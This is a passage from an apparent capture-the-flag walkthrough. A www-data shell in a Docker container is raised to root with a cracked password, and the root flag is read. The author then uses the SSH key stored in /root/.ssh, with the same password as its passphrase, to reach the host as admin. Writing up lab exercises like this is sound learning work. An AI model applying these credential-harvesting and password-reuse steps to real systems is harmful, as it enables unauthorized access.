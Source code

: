 When we try to connect via ssh it does not work:

```
www-data@e71b67461f6c:/dev/shm$ ssh -i root root@192.168.150.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.150.1 (192.168.150.1)' can't be established.
ECDSA key fingerprint is SHA256:47B5q99t6wwHcxTX3Yff0gVrP/Ieun/2T9scPz20xHc.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
root@192.168.150.1's password: 
Permission denied, please try again.
root@192.168.150.1's password: 
```

But another thing we can do is try to be root with the cracked password in the docker container:

```
www-data@e71b67461f6c:/dev/shm$ su root
Password: 
root@e71b67461f6c:/dev/shm# whoami
root
root@e71b67461f6c:/dev/shm# 
```

We can get the flag to be root on the docker container:

```
root@e71b67461f6c:~# ls
root.txt
root@e71b67461f6c:~# cat root.txt 
FLAG{Congrats_on_owning_phpinfo_hope_you_enjoyed_it}

And onwards and upwards!
root@e71b67461f6c:~# 
```

The next step is to breakout of this container, to do this in the directory **/root/.ssh** we can see the keys to connect via ssh, analysing this key we understand user admin can connect with this container. As a curiosity we try to connect via ssh with admin reusing the password **choclate93**.

```
root@e71b67461f6c:~/.ssh# ls
id_rsa	id_rsa.pub  known_hosts
root@e71b67461f6c:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDN/keLDJowDdeSdHZz26wS1M2o2/eiJ99+acchRJr0lZE0YmqbfoIo+n75VS+eLiT03yonunkVp+lhK+uey7/Tu8JsQSHK1F0gci5FG7MKRU4/+m+0CODwVFTNgw3E4FKg5qu+nt6BkBThU3Vnhe/Ujbp5ruNjb4pPajll2Pv5dyRfaRrn0DTnhpBdeXWdIhU9QQgtxzmUXed/77rV6m4AL4+iENigp3YcPOjF7zUG/NEop9c1wdGpjSEhv/ftjyKoazFEmOI1SGpD3k9VZlIUFs/uw6kRVDJlg9uxT4Pz0tIEMVizlV4oZgcEyOJ9NkSe6ePUAHG7F+v7VjbYdbVh admin@192.168.150.1
root@e71b67461f6c:~/.ssh# 

root@e71b67461f6c:~/.ssh# ssh admin@192.168.150.1
Enter passphrase for key '/root/.ssh/id_rsa': 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug 16 08:56:12 2024 from 192.168.150.21
admin@infovore:~$ 

```
And it's work! We can see the flag:
